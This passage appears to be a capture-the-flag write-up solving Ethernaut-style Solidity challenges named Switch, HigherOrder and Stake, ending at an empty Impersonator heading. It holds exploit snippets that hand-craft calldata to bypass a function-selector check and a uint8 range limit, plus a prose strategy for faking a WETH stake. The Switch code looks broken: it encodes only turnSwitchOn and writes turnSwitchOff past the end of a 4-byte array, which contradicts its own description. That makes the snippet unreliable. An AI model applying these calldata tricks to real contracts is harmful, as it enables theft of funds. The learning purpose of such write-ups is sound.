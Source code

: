 ## 29. Switch ✅[Easy]

My strategy is directly calling flipSwitch, passing parameter with bytes4(keccak256("turnSwitchOff()")) in low order four bytes
```solidity
function attack() public {
        // Construct _data:
        // First 4 bytes are turnSwitchOn selector
        // Bytes 68-72 are turnSwitchOff selector
        bytes memory data = abi.encodeWithSelector(
            target.turnSwitchOn.selector // Actually call turnSwitchOn
        );

        // Insert turnSwitchOff selector at bytes 68-72
        assembly {
            mstore(add(data, 0x44), shl(224, 0x9c60e39d)) // turnSwitchOff selector
        }

        // Call flipSwitch, trigger target logic
        target.flipSwitch(data);
}
```

## 30. HigherOrder ✅[Hard]

This level mainly tests understanding of calldata. In Solidity, calldata is raw data sent to contract during function call, including following structure:
Function selector (first 4 bytes): determines which function to call.
Parameter data: follows selector, contains function input parameters.
For example, for registerTreasury(uint8), normal calldata structure is:

[ Function Selector (4 bytes) ][ Parameter (32 bytes, actually value within uint8 range) ]

But because assembly directly reads 32 bytes after byte 4, entire parameter range is expanded. Can pass values exceeding uint8 range by manually constructing calldata.

```solidity
// Manually send calldata, bypass uint8 limit
bytes memory payload = abi.encodeWithSignature("registerTreasury(uint8)", uint256(256));
(bool success, ) = address(target).call(payload);
require(success, "Failed to register treasury");
```

## 31. Stake ✅[Medium]

Strategy:
Attack StakeWETH, because WETH can be self-implemented, and here call directly executes WETH's approve method and transferfrom method. I can satisfy its bytesToUint check, then not transfer in but still added amount, so I can meet challenge requirements

## 32. impersonator ✅[Hard]
